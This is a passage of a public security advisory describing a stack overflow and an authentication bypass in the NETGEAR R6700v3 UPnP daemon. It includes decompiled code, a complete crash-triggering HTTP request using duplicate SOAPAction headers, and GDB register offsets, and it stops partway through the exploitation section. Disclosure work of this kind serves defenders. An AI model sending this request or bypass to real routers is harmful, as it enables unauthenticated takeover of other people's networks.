

tokyo_drift
=======
***


# Summary

This document describes a stack overflow vulnerability that was found by **Pedro Ribeiro ([@pedrib1337](https://twitter.com/pedrib1337) | pedrib@gmail.com)** and **Radek Domanski ([@RabbitPro](https://twitter.com/RabbitPro))** in October 2019 and presented in the **Pwn2Own Mobile 2019 competition** in November 2019. 

The vulnerability is present in the UPNP daemon (*/usr/sbin/upnpd*), running on the router [NETGEAR R6700v3](https://www.netgear.com/support/product/R6700V3.aspx), firmware versions V1.0.4.82_10.0.57 and V1.0.4.84_10.0.58.

This vulnerability can only be exploited by an attacker on the LAN side of the router, but the attacker does not need any authentication to abuse it. After exploitation, an attacker can hijack execution of the *upnpd* binary, and reset the router's administrative password to *"password"*. 

Once the password reset is achieved, code execution is simple; NETGEAR allows users to get a root shell on their routers by sending a special packet to port 23/udp which will enable a telnet server on port 23/tcp. The attacker can then login to this telnet server using their new password, and obtain a root shell.

All function offsets and code snippets in this advisory were taken from */usr/sbin/upnpd* from firmware version V1.0.4.82_10.0.57.

# Note

This advisory was disclosed publicly on 15.06.2020 due to NETGEAR's failure to patch the vulnerabilities listed here, as well as others disclosed to them by the Zero Day Initiative. 

The same *upnpd* binary was also found in the router [NETGEAR R6400v2](https://www.netgear.com/support/product/R6700V2.aspx), firmware version R6400v2-V1.0.4.84_10.0.58.chk (confirmed by MD5 hash), but we did not confirm if the vulnerability was exploitable as we did not have access to the hardware. It is likely other NETGEAR routers are also exploitable.

A special thanks to the [Zero Day Initiative](https://www.zerodayinitiative.com/) (ZDI) for hosting us in the amazing Pwn2Own competition and allowing us to release this information to the public.

A copy of this advisory is available on GitHub at:

* [Pedro's GitHub](https://github.com/pedrib/PoC/blob/master/advisories/Pwn2Own/Tokyo_2019/tokyo_drift/tokyo_drift.md)
* [Radek's GitHub](https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Tokyo2019/tokyo_drift.md)

The following CVE numbers have been assigned:

* [CVE-2020-10923](https://nvd.nist.gov/vuln/detail/CVE-2020-10923)
* [CVE-2020-10924](https://nvd.nist.gov/vuln/detail/CVE-2020-10924)

ZDI's advisories can be found at:

* [ZDI-20-703](https://www.zerodayinitiative.com/advisories/ZDI-20-703/)
* [ZDI-20-704](https://www.zerodayinitiative.com/advisories/ZDI-20-704/)

A Metasploit module was also made available to the public with this advisory, and can be found at:

* [netgear_r6700_pass_reset.rb](https://github.com/rapid7/metasploit-framework/pull/13768)

**The video below shows the Metasploit module in action**. Note that GitHub doesn't allow the video to play embedded in this page, so you'll have to click on it to download and watch it:

[](tokyo_drift.mp4)

~ Team FlashBack

# Vulnerability Details

## Background on UPNP

The *upnpd* binary listens on several ports by default: 5000/tcp, 56938/udp and 1900/udp. The last two ports are listening on 0.0.0.0, while the first port only listens on the LAN address of the router.

First, a bit of background in UPNP. The [Wikipedia page](https://en.wikipedia.org/wiki/Universal_Plug_and_Play) provides a good definition:
> "Universal Plug and Play (UPnP) is a set of networking protocols that permits networked devices, such as personal computers, printers, Internet gateways, Wi-Fi access points and mobile devices to seamlessly discover each other's presence on the network and establish functional network services for data sharing, communications, and entertainment. UPnP is intended primarily for residential networks without enterprise-class devices."

It also provides a very good summary of how the protocol works:
> "UPnP assumes the network runs Internet Protocol (IP) and then leverages HTTP, on top of IP, in order to provide device/service description, actions, data transfer and eventing. Device search requests and advertisements are supported by running HTTP on top of UDP (port 1900) using multicast (known as HTTPMU). Responses to search requests are also sent over UDP, but are instead sent using unicast (known as HTTPU)."

In practice, this technology is abused by many network device vendors to implement functionality which should not be exposed to other network devices, or has poor access controls, as we will demonstrate. 

Vulnerabilities in UPNP are widespread and have been abused for many years:

* [Security Flaws in Universal Plug and Play: Unplug, Don't Play](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play/)
* [Realtek SDK miniigd AddPortMapping SOAP Action Command Injection Remote Code Execution Vulnerability](https://www.zerodayinitiative.com/advisories/ZDI-15-155/)
* [Mass router hack exposes millions of devices to potent NSA exploit](https://arstechnica.com/information-technology/2018/11/mass-router-hack-exposes-millions-of-devices-to-potent-nsa-exploit/)
* [UPnP-enabled Connected Devices in the Home and Unpatched Known Vulnerabilities](https://blog.trendmicro.com/trendlabs-security-intelligence/upnp-enabled-connected-devices-in-home-unpatched-known-vulnerabilities/)


## Understanding the vulnerability

The UPNP HTTP server is running on port 5000/tcp, and handles incoming UPNP requests. The function that handles the HTTP requests is called *upnp_parse_request()* (offset 0x1ad24). The relevant part of the function is shown below:

```cpp
(...)
  print_debug(2,">>%s()\n","upnp_parse_request");
  iVar1 = acosNvramConfig_match("upnp_turn_on",&upnp_flag);
  strncpy((char *)&req_1023_bytes,http_request,0x3ff);
  local_2c[0] = &req_1023_bytes;
  newline = strsep((char **)local_2c,"\r\n");
  http_verb = strsep(&newline," \t");
  http_url = strsep(&newline," \t");
  res = stricmp(http_verb,"POST");
  if (res == 0) {
    iVar1 = upnp_handle_post(http_url,http_request,param_2,param_3,param_4);
(...)
```
> Snippet 1: *upnp_parse_request()*


If the function finds a POST request, it calls *upnp_handle_post()* (0x224b4), of which the relevant parts are shown again below:

```cpp
(...)
  upnp_flag_on = acosNvramConfig_match("upnp_turn_on",&upnp_flag);
  if (upnp_flag_on != 0) {
    upnp_flag_on = 1;
  }
  ret = stristr(http_url,"Public_UPNP_C1");
  if (((ret == 0) || (upnp_flag_on == 0)) || (ret = check_SOAPACTION(http_request), ret == 0)) {
    ret = stristr(http_url,"Public_UPNP_C2");
    if (((ret == 0) || (upnp_flag_on == 0)) || (ret = check_SOAPACTION(http_request), ret == 0)) {
      ret = stristr(http_url,"Public_UPNP_C3");
      if (((ret == 0) || (upnp_flag_on == 0)) || (ret = check_SOAPACTION(http_request), ret == 0)) {
        ret = stristr(http_url,"Public_UPNP_C4");
        if (((ret == 0) || (upnp_flag_on == 0)) || (ret = check_SOAPACTION(http_request), ret == 0))
        {
          ret = stristr(http_url,"Public_UPNP_C5");
          if (((ret == 0) || (upnp_flag_on == 0)) ||
             (upnp_flag_on = check_SOAPACTION(http_request), upnp_flag_on == 0)) {
            upnp_flag_on = stristr(http_url,"soap/server_sa");
            if ((upnp_flag_on == 0) &&
               (upnp_flag_on = stristr(http_url,"soap/server_sa/opendns"), upnp_flag_on == 0)) {
              memset(&local_418,0,0x400);
              cpy_request_error_string(0x194,&local_418,0);
              __n = strlen((char *)&local_418);
              sVar1 = send(param_3,&local_418,__n,0);
              if (sVar1 == -1) {
                print_debug(2,"Send Error Message Failed\n");
              }
            }
            else {
              sVar1 = sa_method_check(http_request,param_3,remote_addr,param_5);
            }
(...)
```
> Snippet 2: *upnp\_handle\_post()*

The core of the function simply tries to find one of 7 strings in the request:

* Public_UPNP_C1
* Public_UPNP_C2
* Public_UPNP_C3
* Public_UPNP_C4
* Public_UPNP_C5
* soap/server_sa
* soap/server_sa/opendns

In order to hit the vulnerable path, we need to enter the last branch which calls *sa_method_check()* (0x3b7e0).
To enter this branch, we need to send one of the last two strings in the URL (*soap/server_sa or soap/server_sa/opendns*), UPNP needs to be turned on (which it is by default) and we need to pass the *check_SOAPACTION()* (0x22464) function check.

This function won't be shown here for brevity, as it simply checks if the string *SOAPACTION* is present in the request (independent of case), and returns 1 if it finds it.

*sa_method_check()* is a long function, so only the relevant parts will be shown here:

```cpp
(...)
  ret2 = stristr(http_request,s_SOAPAction:_0007d470);
  if (ret2 == 0) {
    return 0xffffffff;
  }
  sVar2 = strlen(s_SOAPAction:_0007d470);
  __s1 = (char *)(ret2 + sVar2);
  __s = table_soap_service;
  do {
    soap_method = __s;
    ret2 = stristr(__s1,__s);
    if (ret2 != 0) goto LAB_0003b8ac;
    soap_service_type = soap_service_type + 1;
    __s = __s + 0x1e;
  } while (soap_service_type != 0xb);
  soap_service_type = -1;
(...)
```
> Snippet 3: *sa_method_check()* #1


This first part will look for the *SOAPAction* string in the request, and will try to match it with a table that contains the possible SOAP services:

* DeviceInfo
* DeviceConfig
* WANIPConnection
* WANEthernetLinkConfig
* LANConfigSecurity
* WLANConfiguration
* Time
* ParentalControl
* AdvancedQoS
* UserOptionsTC
* END_OF_FILE

When (if) it finds a match, it will set the *soap_service_type* variable to the number of the service.

The next relevant snippet of *sa_method_check()* is shown below:

```cpp
(...)
  ret2 = check_src_ip_in_arp_table_mb(mac_addr,remote_addr);
                    /* if src IP is not in ARP table, return */
  if (ret2 != 0) goto return_response_code;
  __s = (char *)stristr(http_request,"Cookie:");
  __s_00 = (char *)stristr(http_request,"SOAPAction:");
  __cp = strchr(__s_00,0xd);
  *__cp = '\0';
  ret = stristr(__s_00,"service:DeviceConfig:1#SOAPLogin");
  ret2 = 1 - ret;
  if (1 < ret) {
    ret2 = 0;
  }
  if (__s == NULL) {
    ret2 = 0;
  }
  *__cp = '\r';
  if ((ret2 == 0) ||
     (__s_00 = strchr(__s,0xd), __s_00 == NULL
                    /* if no SOAPLogin or Cookie header it goes here */)) {
check_soap_login:
    strncpy(&DAT_000d9050,"",0x13);
    __s = inet_ntoa(remote_addr);
    strncpy(&DAT_000d9050,__s,0x13);
    __s = inet_ntoa(remote_addr);
    __s_00 = (char *)acosNvramConfig_get("lan_ipaddr");
    ret2 = strcmp(__s,__s_00);
    if (((((ret2 != 0) &&
          (ret2 = strncmp(__s1," urn:NETGEAR-ROUTER:service:ParentalControl:1#Authenticate",0x3a),
          ret2 != 0)) &&
         (ret2 = strncmp(__s1," \"urn:NETGEAR-ROUTER:service:ParentalControl:1#Authenticate\"",0x3c)
         , ret2 != 0)) &&
        ((ret2 = strncmp(__s1," urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin",0x34),
         ret2 != 0 &&
         (ret2 = strncmp(__s1," \"urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin\"",0x36),
         ret2 != 0)))) &&
       (ret2 = strncmp(__s1," urn:NETGEAR-ROUTER:service:DeviceInfo:1#GetInfo",0x30), ret2 != 0)) {
      memset(acStack104,0,0x20);
      memset(opendns_auth_contents,0,0x80);
      arp_popen = fopen("/tmp/opendns_auth.tbl","r");
      if (arp_popen == NULL) goto return_response_code;
      check_arp_table_stuff(acStack104);
      do {
        __s = fgets(opendns_auth_contents,0x80,arp_popen);
        if (__s == NULL) {
          fclose(arp_popen);
          goto return_response_code;
        }
        __s = strstr(opendns_auth_contents,acStack104);
      } while (__s == NULL);
      fclose(arp_popen);
    }
  }
  else {
cookie_parsing:
    *__s_00 = '\0';
    __s = strstr(__s,"sess_id=");
    if (__s == NULL) {
      *__s_00 = '\r';
      goto check_soap_login;
    }
    __s = __s + 8;
    __cp = strchr(__s,';');
    if (__cp == NULL) {
      ret2 = check_cookie_auth(__s,mac_addr,remote_addr);
    }
    else {
      *__cp = '\0';
      ret2 = check_cookie_auth(__s,mac_addr,remote_addr);
      *__cp = ';';
    }
    if (ret2 == 0) goto return_response_code;
    *__s_00 = '\r';
  }
(...)
```
> Snippet 4: *sa_method_check()* #2

This last snippet deals with the authentication. It has a bit of convoluted logic, and is best explained in pseudocode:

```cpp
if SOAPAction header exists
  if action is SOAPLogin
    goto check_soap_login
else
  goto cookie_parsing
if Cookie header exists
  if action is SOAPLogin
    goto check_soap_login
  else
    goto cookie_parsing
else
  goto check_soap_login
```
  > Pseudocode of *sa_method_check()* authentication logic
  
In *check_soap_login* branch, the parser tries to match the SOAPAction header to one of the following:

* urn:NETGEAR-ROUTER:service:ParentalControl:1#Authenticate
* urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin
* urn:NETGEAR-ROUTER:service:DeviceInfo:1#GetInfo

If the header does not match one of these, it will then attempt to open a file "*/tmp/opendns_auth.tbl"* and check if the IP address of the sender is listed in the file. 
If it's not, it will terminate the request with a HTTP 401 unauthorised response (*return_response_code*).
This file and authentication mechanism was briefly investigated, and it appears to be written once a client authenticates using *SOAPLogin*.

In the *cookie_parsing* branch, the parser tries to find the *sess_id* cookie. 
If that cookie does not exist, it goes straight to the *check_soap_login* branch.
If such cookie exists, it extracts its value and then tries to match it in *check_cookie_auth()* (0x2dc98). If that function returns 0 (authorisation failed) it will go to *return_response_code*, which will return HTTP 401 unauthorized. 
*check_cookie_auth*() will not be shown for brevity, but it tries to match the cookie value with values stored in memory. If no match is found, meaning that the request is unauthenticated, it will return 0.

In essence, the three *check_soap_login* service actions are the only unauthenticated services that can be called by an attacker. All other services require authentication.

At the end of the last snippet shown, if the *ParentalControl* string was found, it will enter a branch that handles it. This branch will not be shown here, but it can be used to add new parental control entries (MAC addresses) to the parental control list. It is perhaps something that should not be allowed to be perform by an unauthenticated attacker, but it is a minor vulnerability, and uninteresting for exploitation purposes.

The last relevant part of *sa_method_check()* is shown below:

```cpp
(...)
  if (soap_service_type == -1) {
return_response_code:
    uVar1 = return_login_response(0x20000,s_xml,param_2);
    return uVar1;
  }
  print_debug(3,"%s()\n","sa_saveXMLServiceType");
  memset(&DAT_0009fa30,0,100);
  ret2 = stristr(http_request,"urn:");
  if (((ret2 == 0) || (__src = (void *)stristr(ret2 + 4,":"), __src == NULL)) ||
     (ret2 = stristr(http_request,__s), ret2 == 0)) goto return_response_code;
  sVar2 = strlen(__s);
  sVar3 = strlen(&DAT_0009fa30);
  memcpy(&DAT_0009fa30 + sVar3,"urn:NETGEAR-ROUTER",0x13);
  sVar3 = strlen(&DAT_0009fa30);
  memcpy(&DAT_0009fa30 + sVar3,__src,(ret2 + sVar2) - (int)__src);
  sVar2 = strlen(&DAT_0009fa30);
  memcpy(&DAT_0009fa30 + sVar2,":1",3);
  print_debug(3,"sa_service_type_buf = %s\n",&DAT_0009fa30);
  ret = sa_processResponse(soap_service_type,http_request,param_2,param_4,remote_addr);
(...)
```
> Snippet 5: *sa_method_check()* #3

Here it can be seen that if the *soap_service_type* sent by the attacker was not in the service list, it will go into the *return_response_code* branch, which will return a 401 unauthorised back to the attacker.
If we skip that, it then performs some sanity checks on the *SOAPAction* header, until it finally enters the next link in our vulnerability chain, *sa_processResponse()* (0x38934).

*sa_processResponse()* is a very long function, as it has a huge case statement at the start. 
This case statement will not be shown; in essence, what it does is to filter out what is the service that will be invoked on the request based on two things:
* the *soap_service_type* (first parameter) passed into it
* a keyword inside the request

The keywords are in a long list starting at offset 0x44644 in the binary.

If it finds a keyword match, it will assign it a specific *service_code*. Some services might require further authentication, some others are handled in the sa_processResponse() function directly, and others are forward to different functions.
For this specific vulnerability, we are interested in hitting a branch start starts at 0x39a00, where it invokes *sa_parseRcvCmd()*:

```c
__needle = (char *)sa_parseRcvCmd(http_request,param_4);
```

The first part of this function is shown below:

```cpp
(...)
print_debug(2,"%s()\n","sa_parseRcvCmd");
__s1 = strstr(http_request,":Body>");
  memcpy(auStack256,http_request,0x31);
  local_cf = 0;
  print_debug(2,"Data is = %s\n",auStack256);
  if (__s1 == NULL) {
    uVar5 = 0x2be;
  }
  else {
    ppuVar7 = &PTR_DAT_0007da44;
    memset(&DAT_000d96cc,0,0x5f0);
    local_414 = DAT_0007da4c;
    if (PTR_table_cmd_list_2_0007da48 != "END_OF_FILE") {
      cmd_flag = 0;
      __n = NULL;
      local_43c = 0;
      bVar2 = false;
      cont_len = NULL;
      cmd_table_x = PTR_table_cmd_list_2_0007da48;
      do {
        tag_end = 0;
(...)
        cmd_idx = *ppuVar7;
(...)
        snprintf((char *)&tag_start,0x32,"<%s",cmd_table_x);
        snprintf((char *)&tag_end,0x32,"</%s>");
        cmd_table_x = strstr(__s1 + 6,(char *)&tag_start);
        if (cmd_table_x != NULL) {
          flag = cmd_idx == &DAT_0000ff13;
          uVar8 = (uint)flag;
          cmd_table_x = strchr(cmd_table_x,'>');
          cmd_table_x = cmd_table_x + 1;
          if (cmd_idx != &DAT_0000ff3a && !flag) {
            __n = strstr(cmd_table_x,(char *)&tag_end);
            if (__n != NULL) goto LAB_000258b4;
            print_debug(2,"%d, could not found %s\n",0x4c6,&tag_end);
          }
          else {
            cVar1 = (http_request + param_2)[-1];
            __haystack = http_request + param_2 + -1;
            while (cVar1 != '\0') {
              __n = strstr(__haystack,(char *)&tag_end);
              if (__n != NULL) goto LAB_000258b4;
              __haystack = __haystack + -1;
              cVar1 = *__haystack;
            }
            if (bVar2) {
LAB_000258b4:
              if (cmd_table_x < __n) {
                cont_len = __n + -(int)cmd_table_x;
                bVar2 = true;
                cmd_flag = 1;
              }
              else {
                bVar2 = true;
                cmd_flag = 0;
              }
            }
            local_468 = cmd_flag;
            __n_00 = cmd_idx;
            __haystack = cont_len;
            local_45c = &tag_start;
            local_458 = &tag_end;
            print_debug(2,"%s(%d): command_found = %d, index = %d, content_len = %d %s-%s\n",
                        "sa_parseRcvCmd",0x4d3,cmd_flag,cmd_idx,cont_len,&tag_start,&tag_end);
(...)
```
> Snippet 6: *sa_parseRcvCmd()*

The code is a bit convoluted, but what it does here is to try and find a XML tag with a value that is part of a command list that starts at 0x4547c. If it does, it sets the variable *cmd_idx* accordingly.

For some specific *cmd_idx* values, this function will then perform the following actions:

* 0xff13: process tag content value as a configuration update
* 0xff37: process tag content value as a block name (more on this later)
* 0xff3a: processes tag content as a firmware update
* 0xffb9: compares tag content value with the bridge MAC and returns if it matches or not
* 0xffbc: performs and checks speedtest results
* 0x1: performs further processing and then moves on to the next tag

Our objective as an attacker is to match command type 0xff37, entering *sa_setBlockName* (0x24b8c), which is our vulnerable function (finally!).

For exploitation purposes, we only really care about the first part of the function:

```cpp
undefined4 sa_setBlockName(char *block_name,int len)
{
  int scanf_res;
  char *__src;
  char scanf_str [1024];
  undefined4 scanf_int;
  
  scanf_int = 0;
  scanf_str._0_4_ = 0;
  memset(scanf_str + 4,0,0x3fc);
  print_debug(3,"%s(%d);\n","sa_setBlockName",0x42d);
  if (len != 0) {
    scanf_res = sscanf(block_name,"%d%s",&scanf_int,scanf_str);
    if ((scanf_res == 2) && (__src = strstr(block_name,s_@_000662bc), __src != NULL)) {
(...) 
    }
  }
  return 0;
}
```
> Snippet 7: *sa_setBlockName()*

There it is, the vulnerability in full glory. 

The block_name variable contains the contents inside the *NewBlockSiteName* XML tag, and these will be copied into *scanf_str* directly, without checking for length. 
This will cause a stack overrun if the tag contents are over 0x400 (*scanf_str* size), trashing all the values in the stack as well as the saved registers, including the *$pc* register, and therefore can be abused to take control of program execution.

In order to trigger this vulnerability, we need to send a string that contains a number, such as "1", followed by more than 0x400 characters. This is because *sscanf* is looking for the "%d%s" format string, and if doesn't find it, it doesn't write to the variables.

As a side note, the configuration file update as well as the firmware update commands also look very interesting from an attacker's point of view. 
We attempted exploitation of those, but it looks like that any POST request done to *upnpd* that was over 0x2000 bytes was ignored and the TCP connection was reset, and both configuration and firmware updates were a lot larger than 0x2000. 

In addition to this we would have to reverse encryption and obfuscation mechanisms, so to save time we settled on exploiting the easier stack overflow that is described above.


# Exploitation

## Reaching the vulnerable function

So how do we reach this vulnerable function *sa_setBlockName()*, if there are a number of different checks, including authentication checks?

Fortunately for us, this binary parses input in an extremely careless way. It treats the whole HTTP request as one big string (including the XML part) and when it tries to match strings in it, it uses *stristr*() (similar to *strstr*() but without consideration for case).

This can be used to our advantage. In order to hit the vulnerable function and cause a stack overflow, we have to send the following POST request:

```http
POST soap/server_sa HTTP/1.1
Host: 192.168.131.1:5000
SOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin
SOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#Whatever
Content-Type: application/x-www-form-urlencoded
Content-Length: 1343

<?xml version="1.0"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body>
SetDeviceNameIconByMAC
<NewBlockSiteName>1aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa44445555666677778888PPPP
</NewBlockSiteName>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```
> HTTP request that triggers the stack overflow


This request causes the server to crash at $pc 0x50505050. So why does this happen, and why can we do it unauthenticated?

Let's start from the beginning. If we look at **Snippet 2** above, we see that the first thing we have to do is to send either *soap/server_sa* or *soap/server_sa/opendns* as the URL string. Note that we don't need to add "/" to the beginning of the URL, which attests to the "quality" of this parser...

Then in *sa_method_check()* we have a series of conditions that we have to bypass. In order to bypass all kinds of authentication, we need to send the following header:
* SOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin

This will allow us to bypass the checks in *sa_method_check()* (refer to **Snippet 4** and **Pseudocode of *sa_method_check()*** above).

However, if we send *DeviceConfig:1#SOAPLogin*, won't this redirect us to the login function? Well, yes and no. If we only send that *SOAPAction*, then we will get redirected to the login function. But if you look closely at the HTTP request, you will see that we are actually sending two *SOAPAction* headers:

* SOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin
* SOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#Whatever

So what is happening here? 

Please look again at **Snippet 3** where the matching of the received headers is done with the possible services. The services are replicated here:

* DeviceInfo
* DeviceConfig
* WANIPConnection
* WANEthernetLinkConfig
* LANConfigSecurity
* WLANConfiguration
* Time
* ParentalControl
* AdvancedQoS
* UserOptionsTC
* END_OF_FILE

This is exactly the order in which they are matched with the incoming HTTP request (the actual table is located at 0x7e380). So here you can see how dumb this parser is, and how clever our bypass is. 

Firstly, we send the aforementioned *DeviceConfig:1#SOAPLogin* to bypass all the authentication checks.

Then we send another *SOAPAction* header with a *DeviceInfo:1#Whatever* service. As the parser goes through the list above in order, it matches the second *SOAPAction* header (*DeviceInfo:1#Whatever*) before it matches the first *SOAPAction* header (*DeviceConfig:1#SOAPLogin*).

This allows us to bypass authentication for all *DeviceInfo* service requests, but only those, as after this service the next on the list is *DeviceConfig*, which is the one that contains the *SOAPLogin* action. If we try to send a different *DeviceConfig* action, we will fail the authentication check done in *sa_method_check()*.

If we only send the *DeviceConfig:1#SOAPLogin*, the *soap_service_type* will be set to 1, which will cause us to go down an execution path that will not hit the vulnerable function, and will be redirected to the login function.

This clever bypass will set the *soap_service_type* to 0 (see **Snippet 5**), which is the number of the  *DeviceInfo* service, before we go into the next step which is *sa_processResponse()*.

We then enter *sa_processResponse()*, which was omitted from the Vulnerability Details section, as it is a large function of little interest to us. However, as mentioned before, at the start there is a huge switch statement that will redirect execution according to the *soap_service_type* sent as the first parameter, and a keyword inside the request.

For *soap_service_type* 0, which is the type of the *DeviceInfo* service, the possible keyword action values are one of the following:

* GetInfo
* GetSupportFeatureListXML
* GetSupportFeatureList
* GetAttachDevice2
* SetDeviceNameIconByMAC
* SetDeviceInfoByMAC
* SetNetgearDeviceName
* GetSysUpTime
* GetAttachDevice
* GetSystemLogs
* GetSystemInfo

Note that all of them are *Get* except for three: *SetDeviceNameIconByMAC*, *SetDeviceInfoByMAC* and *SetNetgearDeviceName*. The *Get* types lead us down a different execution path in *sa_processResponse()*, and they are interesting from an information leak point of view, but not really helpful for exploitation.

But the *Set* keywords are another story. Sending one of these will cause *sa_processResponse()* to invoke the next function in our chain, *sa_parseRcvCmd()*. In our request we decided to send *SetDeviceNameIconByMAC*, but for our purposes any of the three *Set* keywords would work.

*sa_parseRcvCmd()* was shown above in **Snippet 6**. As it can be seen there, it will parse the request looking for certain command values. To hit our vulnerable function we want to have *cmd_idx* 0xff37, which is achieved by sending the *NewBlockSiteName* XML tag.

The function will then grab the value of this XML tag, and pass it to our vulnerable function, *sa_setBlockName()*.


## Achieving code execution

If we attach gdb to */usr/sbin/upnpd* and then send the HTTP request, we can see how the crash happens:

```
Program received signal SIGSEGV, Segmentation fault.
0x50505050 in ?? ()
────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "upnpd", stopped, reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────── stack ────
0xbe893b60│+0x0000: 0x00000000   ← $sp
0xbe893b64│+0x0004: 0x0000ff37  →  0x0000a9e1  →  0x7400009b
0xbe893b68│+0x0008: 0x0000041f
0xbe893b6c│+0x000c: 0xbe893f30  →  "<NewBlockSiteName"
0xbe893b70│+0x0010: 0xbe893efc  →  "</NewBlockSiteName>"
0xbe893b74│+0x0014: 0x00000000
0xbe893b78│+0x0018: 0x00000000
0xbe893b7c│+0x001c: 0x0000041f
──────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0x0
$r1  : 0x000662bc  →  0x00000040 ("@"?)
$r2  : 0x000662bc  →  0x00000040 ("@"?)
$r3  : 0xbe895361  →  0x00000000
$r4  : 0x34343434 ("4444"?)
$r5  : 0x35353535 ("5555"?)
$r6  : 0x36363636 ("6666"?)
$r7  : 0x37373737 ("7777"?)
$r8  : 0x38383838 ("8888"?)
$r9  : 0x1
$r10 : 0x0
$r11 : 0xbe893f30  →  "<NewBlockSiteName"
$r12 : 0x0
$lr  : 0x00024c28  →   cmp r0,  #0
$cpsr: [negative ZERO CARRY overflow interrupt fast thumb]
───────────────────────────────────────────────────────────────────────────── code:arm:ARM ────
[!] Cannot disassemble from $PC
```
> Snapshot of registers in GDB when the crash occurs

As it can be seen in the GDB snapshot, the string value we send inside the *NewBlockSiteName* XML tag ends up in the stack, and we overwrite the following registers:

* $r4 ("4444") at offset 1029-1032
* $r5 ("5555") at offset 1033-1036
* $r6 ("6666") at offset 1037-1040
* $r7 ("7777") at offset 1041-1044
* $r8 ("8888") at offset 1045-1048
* $lr (0x50505050) at offset 1049-1052

Despite being a very simple stack overflow, there are several obstacles that make it hard to exploit:

1. Since it's a string overflow using *sscanf*, there can be no null bytes in the payload.
2. The binary has the NX (non-execute) protection, so the stack is not executable.
3. While the binary and the heap are not randomised, the stack and all other libraries have ASLR (address space layout randomisation) enabled.

Given the three points above, we won't be able to execute shellcode on the stack. We can use ROP (return oriented programming) techniques to execute code, but we will only have access to the gadgets provided in the binary.
Unfortunately for us, the binary is quite small with 522940 bytes. There are roughly 1200 gadgets in it, and since we cannot write any null bytes, we can only use one gadget anyway. This is because all gadgets have at least one null byte in it, as the binary is mapped at addresses 0x00008000 to 0x00090000.

With all these constraints, what can we really do with just one gadget?

Well, how about changing the router administrative password? This is achievable, as there is code inside the *upnpd* binary that does exactly that in sa_processResponse(), at offset 0x39a48:

